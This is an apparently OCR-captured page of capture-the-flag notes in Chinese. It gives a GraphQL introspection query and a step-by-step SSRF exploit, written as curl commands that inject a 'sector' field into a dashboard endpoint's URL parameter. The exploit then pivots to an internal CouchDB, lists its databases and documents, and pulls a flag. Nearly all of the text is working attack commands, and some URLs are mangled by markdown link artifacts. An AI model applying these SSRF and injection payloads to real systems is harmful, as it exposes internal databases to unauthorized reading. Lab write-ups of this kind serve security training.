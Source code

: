 GraphQL 查询所有字段

{
"query": "query IntrospectionQuery { __schema { types { name kind description fields { name description args { name description type { name kind ofType { name kind } } } type { name kind ofType { name kind } } } } } }"
}

SSRF利用

#確認是 couchdb
curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/#\\",\\"sector\\":\\"whale_get_4369\\"}"](http://127.0.0.1:5984/#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_4369%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale'

# 取得所有 dbs

curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/_all_dbs#\\",\\"sector\\":\\"whale_get_5984_all_dbs\\"}"](http://127.0.0.1:5984/_all_dbs#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_5984_all_dbs%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale'

# 確認 citismart 可請求，取得 docs 並讀取 flag

curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/citismart#\\",\\"sector\\":\\"whale_get_5984_citismart\\"}"](http://127.0.0.1:5984/citismart#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_5984_citismart%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale'
curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/citismart/_all_docs#\\",\\"sector\\":\\"whale_get_5984_citismart_all_docs\\"}"](http://127.0.0.1:5984/citismart/_all_docs#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_5984_citismart_all_docs%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale'
curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/citismart/FLAG#\\",\\"sector\\":\\"whale_get_5984_citismart_FLAG\\"}"](http://127.0.0.1:5984/citismart/FLAG#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_5984_citismart_FLAG%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale' | grep FLAG
